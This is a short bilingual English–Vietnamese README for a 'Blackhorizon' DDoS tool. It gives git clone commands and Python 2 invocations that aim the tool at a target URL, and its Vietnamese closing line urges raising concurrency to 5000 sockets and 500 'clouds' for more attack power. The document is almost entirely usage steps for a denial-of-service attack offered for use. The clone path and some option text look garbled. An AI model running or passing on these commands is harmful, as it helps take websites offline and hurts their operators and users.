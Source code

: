 ## English
# How to install the Blackhorizon DDoS tool?
*`git clone https://github.com/le-cuong-hacker1111/Blackhorizon-cover/Anonymous.git`

*`cd Blackhorizon-cover/Anonymous`

# How to use the Blackhorizon DDoS tool?
*`python2 blackhorizon.py`

*`python2 blackhorizon.py https://www.example.com -s 30 -c 30`

# -c, --clounds Number of concurrent clounds     (default: 1)

# -s, --sockets Number of concurrent sockets     (default: 1)

## Việt Nam
# Làm thế nào để cài đặt tool DDoS Blackhorizon?
*`git clone https://github.com/le-cuong-hacker1111/Blackhorizon-cover/Anonymous.git`

*`cd Blackhorizon-cover/Anonymous`

# Làm thế nào để sử dụng tool DDoS Blackhorizon
*`python2 blackhorizon.py`

*`python2 blackhorizon.py https://www.example.com -s 30 -c 30`

# -c, --clounds Số lượng cụm đồng thời (mặc định: 1)

# -s, --sockets Số lượng ổ cắm đồng thời (mặc định: 1)

# Tuỳ anh em thích đạt -s hoặc -c có thể lrn6 đến -s 5000 -c 500 để tăng sức mạnh mà tăng quá tool sẽ chạy không nổi ae cẩn thận xài vv

